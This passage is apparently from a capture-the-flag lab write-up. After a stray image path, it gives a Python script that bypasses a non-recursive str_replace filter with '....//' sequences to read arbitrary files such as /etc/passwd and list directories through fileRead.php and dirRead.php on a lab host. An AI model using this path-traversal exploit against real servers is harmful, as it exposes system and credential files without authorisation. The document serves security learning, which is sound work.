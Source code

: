 Using the fact that ```str_replace``` does not work recursively, I wrote a script to read files (prefixed with ```f:``` such as ```f:/etc/passwd```) and directories (prefixed with ```d:``` such as ```d:/home```).

```python
#!/usr/bin/python3

import requests
try:
    import readline
except ImportError:
    pass

if __name__ == '__main__':
    path = input('Enter the absolute path to a file (with f:<file>) or directory (with d:<dir>): ')
    try:
        while True:
            if path.lower() == 'exit':
                break
            
            # fileRead.php and dirRead.php live in /var/www/html, so we need to back up three directories to
            # get to an absolute path.  To back up three directories, we specify ....//....//....// which
            # the PHP scripts filter down to ../../../
            if path.startswith('f:'):
                # path[2:] removes the f: from the front of the string because we do not need it anymore
                parameters = {'file': '....//....//....//' + path[2:]}
                file_request = requests.post('http://10.10.10.87/fileRead.php', data=parameters)
                if file_request.ok:
                    try:
                        file_contents = file_request.json()['file']
                        print(file_contents)
                    except:
                        print('Unexpected response: {}'.format(file_request.text))
                else:
                    print('ERROR ({}): {}'.format(file_request.status_code, file_request.text))
            elif path.startswith('d:'):
                # path[2:] removes the d: from the front of the string because we do not need it anymore
                parameters = {'path': '....//....//....//' + path[2:]}
                path_request = requests.post('http://10.10.10.87/dirRead.php', data=parameters)
                if path_request.ok:
                    try:
                        print(*path_request.json(), sep='\n')
                    except:
                        print('Unexpected response: {}'.format(path_request.text))
                else:
                    print('ERROR ({}): {}'.format(path_request.status_code, path_request.text))

            path = input('Enter the absolute path to a file (with f:<file>) or directory (with d:<dir>): ')
    except KeyboardInterrupt:
        print('\n')
```


[1]: http://php.net/manual/en/function.str-replace.php "str_replace Documentation (php.net)"
[2]: https://tipstrickshack.blogspot.com/2013/02/how-to-bypassing-filter-to-traversal_8831.html "Bypassing Filter to Traversal Attacks"
[3]: https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/ "Restricted Linux Shell Escaping Techniques"
[4]: https://linux.die.net/man/7/capabilities "capabilities man page"
[5]: https://linux.die.net/man/1/tac "tac man page"